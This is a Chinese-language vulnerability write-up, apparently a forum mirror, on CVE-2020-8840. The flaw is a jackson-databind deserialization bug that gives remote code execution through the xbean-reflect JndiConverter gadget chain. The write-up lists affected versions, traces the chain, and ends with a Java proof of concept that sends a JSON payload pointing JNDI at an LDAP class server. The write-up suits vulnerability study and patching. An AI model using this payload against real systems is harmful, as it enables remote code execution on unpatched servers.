



# （CVE-2020-8840）FasterXML jackson-databind 远程代码执行漏洞

> 原文：[https://www.zhihuifly.com/t/topic/2930](https://www.zhihuifly.com/t/topic/2930)

# （CVE-2020-8840）FasterXML jackson-databind 远程代码执行漏洞

## 一、漏洞简介

`FFasterXML/jackson-databind`是一个用于JSON和对象转换的Java第三方库，可将Java对象转换成json对象和xml文档，同样也可将json对象转换成Java对象。

此次漏洞中攻击者可利用`xbean-reflect`的利用链触发JNDI远程类加载从而达到远程代码执行。

## 二、漏洞影响

*   jackson-databind 2.0.0 – 2.9.10.2
*   经验证fastjson在开启了autoType功能的情况下，影响最新的fastjson v1.2.62版本

## 三、复现过程

可以在git提交记录中清楚看到利用的具体类


分析下利用链，通过传进参数`asText`，触发setter，`setAsText()`函数


随后跟进`toObject()`函数



最终进到`JndiConverter`重写的`toObjectImp()`函数



此时出现经典的JNDI注入，text 刚好就是我们传进的asText，我们可控，从而达到命令执行目的



### poc

```
import com.fasterxml.jackson.databind.ObjectMapper;
import java.io.IOException;

public class Poc {

public static void main(String args[]) {

ObjectMapper mapper = new ObjectMapper();

```
 mapper.enableDefaultTyping();

    String json = "[\"org.apache.xbean.propertyeditor.JndiConverter\", {\"asText\":\"ldap://localhost:1389/ExportObject\"}]";

    try {
        mapper.readValue(json, Object.class);
    } catch (IOException e) {
        e.printStackTrace();
    }

} 
``` `}` 
```